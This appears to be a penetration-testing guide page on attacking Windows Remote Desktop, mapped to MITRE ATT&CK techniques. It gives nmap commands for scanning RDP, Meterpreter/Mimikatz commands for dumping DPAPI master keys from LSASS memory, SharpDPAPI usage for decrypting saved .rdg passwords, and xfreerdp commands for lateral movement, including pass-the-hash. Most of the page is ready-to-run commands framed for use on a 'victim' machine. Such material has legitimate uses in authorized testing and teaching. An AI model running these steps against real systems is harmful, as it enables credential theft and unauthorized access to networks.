

A guide for scanning RDP services, extracting saved Remote Desktop Connection Manager (`.rdg`) credentials by abusing DPAPI, and moving laterally via RDP.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1021.001 - Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)
* [T1555.003 - Credentials from Password Stores: Credentials from Web Browsers/Files (DPAPI)](https://attack.mitre.org/techniques/T1555/003/)
</Callout>




---

## Scanning & Reconnaissance

Identify if the RDP service (port 3389) is open and determine the Windows version via Nmap.

<Tabs>
  <Tab title="Aggressive Scan">
    ```bash
    # Aggressive SYN scan with service/version detection
    nmap -sV -sS -T4 x.x.x.x -p 3389
    ```
  </Tab>
  <Tab title="RDP Enumeration Scripts">
    ```bash
    # Alternatively, run specific RDP enumeration scripts
    nmap -p 3389 --script rdp-enum-encryption,rdp-vuln-ms12-020,rdp-ntlm-info x.x.x.x
    ```
  </Tab>
</Tabs>

---

## Credential Extraction (RDG & DPAPI)

<Callout type="warning" title="Exploiting Remote Desktop Connection Manager (.rdg files)">
After gaining initial access, if you find a file with the `.rdg` extension (used by Remote Desktop Connection Manager to save server lists and credentials), you cannot read the plaintext passwords directly. They are encrypted using Windows **DPAPI** (Data Protection API).
</Callout>

<Steps>
  <Step title="Step 1: Dump DPAPI Keys from Memory (LSASS)">
    To decrypt the `.rdg` file, you must extract the DPAPI master keys from the victim's LSASS memory using Meterpreter and Mimikatz (Kiwi).
    ```ruby
    # Inside Meterpreter session
    meterpreter> load kiwi

    # Dump DPAPI keys
    meterpreter> kiwi_cmd sekurlsa::dpapi

    # Look for the output format: {GUID}:SHA1_OR_KEY
    # Example output: {7792ce15-5c63-4b34-9a5a-4e6a91a8b343}:01020304050607080910...
    # Copy this {GUID}:KEY value.
    ```
  </Step>
  <Step title="Step 2: Decrypt the .rdg File">
    Transfer the `.rdg` file to your attack machine or use the `SharpDPAPI` tool on the victim machine to decrypt it using the master key you just extracted.
    ```cmd
    :: Run SharpDPAPI on the target or locally with the extracted GUID:KEY
    SharpDPAPI.exe rdg {GUID}:sha1_or_key
    ```
    <Callout type="info">*Note: `SharpDPAPI` will parse the `.rdg` file and output the cleartext usernames and passwords for the saved RDP connections.*</Callout>
  </Step>
</Steps>

---

## Lateral Movement (Connecting via RDP)

<Callout type="success" title="Remote Desktop Protocol (xfreerdp)">
Once you have decrypted the credentials from the `.rdg` file (or obtained them via other means), you can connect to the target machine using RDP.
</Callout>

<Tabs>
  <Tab title="Standard Connection">
    ```bash
    # Basic RDP connection via Linux
    xfreerdp /u:user /p:password /v:x.x.x.x

    # Recommended flags for better UX and evasion
    # /dynamic-resolution : Allows window resizing
    # +clipboard          : Enables copy/paste between machines
    # /drive:share,/path  : Mounts a local Linux directory into the Windows session
    xfreerdp /u:administrator /p:'Pass123!' /v:x.x.x.x /dynamic-resolution +clipboard
    ```
  </Tab>
  <Tab title="Passing the Hash (PtH) over RDP">
    <Callout type="tip">
    If you have an NTLM hash but no plaintext password, you can still RDP into the target using `xfreerdp`, **but only if Restricted Admin Mode is enabled** on the target machine.
    </Callout>
    ```bash
    # PtH over RDP using xfreerdp
    xfreerdp /u:administrator /d:domain.local /pth:NTLM_HASH /v:x.x.x.x
    ```
  </Tab>
</Tabs>
